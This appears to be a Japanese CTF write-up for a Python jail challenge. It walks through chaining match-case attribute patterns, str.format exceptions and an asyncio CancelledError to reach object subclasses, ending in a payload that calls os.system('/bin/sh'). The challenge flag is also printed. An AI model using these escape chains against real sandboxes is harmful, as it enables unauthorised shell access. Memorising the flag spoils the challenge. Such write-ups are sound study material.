 # Future With Escape

## 問題文

There was an exit

## Writeup

この問題では`.`が使えないことが最大のネックとなる。[pyjailのチートシート](https://shirajuki.js.org/blog/pyjail-cheatsheet/#getting-attributes)を見ると、様々な方法で属性にアクセスする方法が書かれている。そのうちの一つである次の手法に注目する。

```python
match ():
    case object(__doc__=a):
        pass
print(a) # ().__doc__
```

`object`の箇所について、別のクラスを利用することもできるが、その場合はそのクラスに属するインスタンスからしか要素を取り出すことができない。

`Future.__class__`は`type`と一致する。そして、この`type`はクラスであると同時に`type(obj)`で`obj`のクラスを返す関数でもある。したがって、`future('__class__', obj)`を実行すると、`obj`のクラスへの参照を得ることができる。

これを利用して以下のように、例えば`"foobar".encode("utf-8")`が実行できる。

```python
str = future("\x5f\x5fclass\x5f\x5f", "")
type = future("\x5f\x5fclass\x5f\x5f", str)
match str:
    case type(encode=encode):
        pass
# str.encode("foobar", "utf-8")は"foobar".encode("utf-8")と同義
encode("foobar", "utf-8")
```

ただし、`_`が使えないため、この方法では`__subclasses__`のような、dunder属性やメソッドにアクセスできないため、RCEまでつなげるのは難しい。そこで、属性にアクセスする第2の方法を利用する。

```python
try:
  "{0.__doc__.lol}".format(())
except Exception as e:
  a = e.obj
  print(a) # ().__doc__
```

第1の方法を組み合わせることで、`str.format`を取得できるし、`e.obj`にアクセスすることもできる。`Exception`か`BaseException`オブジェクトさえ手に入れば、この方法でdunder関数にアクセスできそうである。(`except ... as e`の`...`の箇所は、`BaseException`クラスを継承したクラスのインスタンスでなければ実行エラーとなる。)

[`Future._make_cancelled_error`](https://github.com/python/cpython/blob/95d6e0b2830c8e6bfd861042f6df6343891d5843/Lib/asyncio/futures.py#L135)は、`CancelledError`オブジェクトを返す関数であり、`future("_make_cancelled_error", fut)`で取得できる。`CancelledError`は`BaseException`を継承しているので、`CancelledError.mro()`は`[CancelledError, BaseException, object]`の配列となる。そして、この配列に対して`pop`関数を利用することで、順に`object`と`BaseException`への参照を手に入れることができる。

これにより、任意の属性にアクセスできるようになったので、

```python
object.__subclassess__().__getitem__(190).__init__.__globals__.get("system")("/bin/sh")
```
と同等のコードをすれば良い。([参考](https://zenn.dev/tchen/articles/c75d9ee9d4c076))

## Flag

`fwectf{y0u_c4n_35c4p3_fr0m_j41l_bu7_n07_fu7ur3}`

